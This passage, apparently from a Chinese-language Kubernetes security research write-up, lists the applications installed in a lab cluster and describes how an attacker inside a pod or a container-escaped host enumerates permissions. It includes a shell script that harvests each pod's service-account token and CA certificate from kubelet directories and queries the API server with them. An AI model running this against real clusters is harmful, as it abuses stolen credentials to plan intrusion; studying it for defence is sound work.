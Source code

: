 
### 研究环境中出现的应用程序

在本次搭建的研究环境中，安装了下面这些应用程序。

| NAME | NAMESPACE | CHART | APP VERSION |
| --- | --- | --- | --- |
| argo | default | argo-cd-5.27.1 | V2.6.6 |
| argo-workflows | kube-system | argo-workflows-0.22.14 | v3.4.5 |
| cert-manager | cert-manager | cert-manage-v1.11.1 | vl.11.1 |
| fluentd-bitnami | default | fluentd-5.6.5 | 1.16.1 |
| ingress-nginx | default | ingress-nginx-4.6.0 | 1.7.0 |
| jenkins | default | jenkins-4.3.22 | 2.387.2 |
| kube-prometheus-stack | default | kube-prometheus-stack-45.21.0 | v0.63.0 |
| kubemetes-dashboard | default | kubemetes-dashboard-6.0.6 | v2.7.0 |
| mysql | default | mysql-9.6.0 | 8.0.32 |
| photoshow | default | photoshow-1.0.1 | 48aabb98 |
| redis | default | redis-17.8.5 | 7.0.9 |

每个请求服务账户的应用程序，都经过了枚举和测试，查看该应用程序所要求的那些权限，能否用来渗透 k8s 集群。

### 对 Host 的枚举

k8s 环境可以通过多种方式实现枚举。

（1）如果攻击者入侵了单个 pod，就可以在 pod 中找这个路径`/var/run/secrets`，以便访问 k8s API 并通过身份验证。

（2）攻击者执行"容器逃逸"(container escape) 并获得对 host 的访问。

此时，攻击者可以执行简单的 shell 脚本，如下，kubelet-enum.sh

```plain
for mydir in $(find /var/lib/kubelet/pods -name namespace -exec dirname {} \;); do
  echo "Checking $mydir"
  # 设置环境变量
  export cert=$mydir/ca.crt
  export token=$mydir/token
  export namespace=$mydir/namespace
  export apiserver=$(netstat -n | grep 6443 | awk '{ print $5 }' | uniq)
  echo "$cert $namespace $token $apiserver"
  kubectl --certificate-authority=$cert --token=$(cat $token) --namespace=$(cat $namespace) --server=https://$apiserver auth can-i --list
done
```

脚本的作用是：

枚举被攻击者控制的主机上的每个 pod 拥有的"权限"。
